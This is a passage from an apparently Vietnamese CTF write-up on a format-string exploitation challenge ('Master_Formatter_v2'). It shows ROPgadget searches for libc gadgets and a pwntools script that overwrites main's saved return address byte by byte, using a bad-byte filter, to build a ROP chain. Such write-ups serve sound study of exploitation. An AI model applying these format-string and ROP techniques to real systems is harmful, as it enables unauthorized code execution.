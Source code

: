 

- ta thấy giờ ta có thể thoải mái build rop_chain trên stack 

![here](/assets/images/loop_good.png)

- cuối cùng ta sẽ overwrite ```saved_rip``` của main nữa là được 

- tìm các gadget: 

```cs
ploi@PhuocLoiiiii:~/pwn/FSB/Master_Formatter_v2$ ROPgadget --binary libc.so.6 | grep -e ".*: pop rdi ; ret$"
0x0000000000028715 : pop rdi ; ret
ploi@PhuocLoiiiii:~/pwn/FSB/Master_Formatter_v2$ ROPgadget --binary libc.so.6 | grep -e ".*: ret$"
0x0000000000026a3e : ret
```

- lúc đầu mình thử build payload bằng pwntools , tuy nhiên nó vướng badbyte nên hình như không thành công

```cs
badbytes = frozenset({0x70, 0x75,0x64,0x78,0x66,0x69,0x65,0x67,0x61,0x55,0x44,0x58,0x46,0x49,0x45,0x47})

def build_fsb(offset,where,what,size,badbytes):
    payload = fmtstr_payload(offset,{where:what},write_size=size,badbytes=badbytes)
    p.sendlineafter(b'>> ',b'2')
    p.sendlineafter(b'>> ',payload)

input()
build_fsb(6,saved_rip,bytes.fromhex(hex(POP_RDI)[2:])[:-1],"byte",badbytes)
build_fsb(6,saved_rip+1,bytes.fromhex(hex(POP_RDI)[2:])[:-2],"byte",badbytes)
build_fsb(6,saved_rip+2,bytes.fromhex(hex(POP_RDI)[2:])[:-3],"byte",badbytes)
build_fsb(6,saved_rip+3,bytes.fromhex(hex(POP_RDI)[2:])[:-4],"byte",badbytes)
build_fsb(6,saved_rip+4,bytes.fromhex(hex(POP_RDI)[2:])[:-5],"byte",badbytes)
build_fsb(6,saved_rip+5,bytes.fromhex(hex(POP_RDI)[2:])[:-6],"byte",badbytes)
```
